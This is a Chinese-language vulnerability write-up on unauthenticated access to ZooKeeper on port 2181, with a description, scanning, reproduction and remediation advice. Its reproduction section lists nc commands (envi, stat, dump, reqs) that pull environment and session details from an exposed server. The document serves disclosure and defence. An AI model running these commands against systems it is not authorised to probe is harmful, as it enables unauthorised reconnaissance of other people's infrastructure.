 # Zookeeper未授权漏洞

### 漏洞描述

ZooKeeper是一个分布式的，开放源码的分布式应用程序协调服务，是Google的Chubby一个开源的实现，是Hadoop和Hbase的重要组件。它是一个为分布式应用提供一致性服务的软件，提供的功能包括：配置维护、域名服务、分布式同步、组服务等。

ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境

Zookeeper 安装部署之后默认情况下不需要任何身份验证，造成攻击者可以远程利用 Zookeeper，通过服务器收集敏感信息或者在 Zookeeper 集群内进行破坏（比如：kill命令）。攻击者能够执行所有只允许由管理员运行的命令。

### 影响版本

- Zookeeper全版本

### 漏洞扫描

使用Goby对目标进行扫描，发现未授权漏洞

![image-20240119134001929](imgs/image-20240119134001929.png)



### 漏洞复现

直接输出目标服务器环境信息：os名称   版本   服务器名称   版本    绝对路径

```bash
echo  envi  | nc 192.168.xxx.xxx 2181
```

![image-20240119133552252](imgs/image-20240119133552252.png)



```bash
echo  stat  | nc 192.168.xxx.xxx 2181
```



![image-20240119133415699](imgs/image-20240119133415699.png)

连接数 版本 模式



```bash
stat：列出关于性能和连接的客户端的统计信息。
echo stat |nc 192.168.xxx.xxx  2181

ruok：测试服务器是否运行在非错误状态。
echo ruok |nc 192.168.xxx.xxx  2181

reqs：列出未完成的请求。
echo reqs |nc 192.168.xxx.xxx  2181

envi：打印有关服务环境的详细信息。
echo envi |nc 192.168.xxx.xxx   2181

dump：列出未完成的会话和临时节点。
echo dump |nc 192.168.xxx.xxx  2181

```



### 漏洞修复

1、配置服务ACL限制IP访问

2、配置防火墙策略，只允许指定IP访问2181端口

3、增加 ZooKeeper 的认证配置。

### 参考

- https://www.cnblogs.com/wxwbblog/articles/16382255.html
- https://www.u72.net/dev/show-152309.html
- https://blog.csdn.net/qq_44108455/article/details/107708133
- https://blog.csdn.net/weixin_55716222/article/details/124732332
- https://blog.csdn.net/Aaron_Miller/article/details/106049421
-  https://zhuanlan.zhihu.com/p/639367362
- https://blog.csdn.net/qq_43719634/article/details/105094934
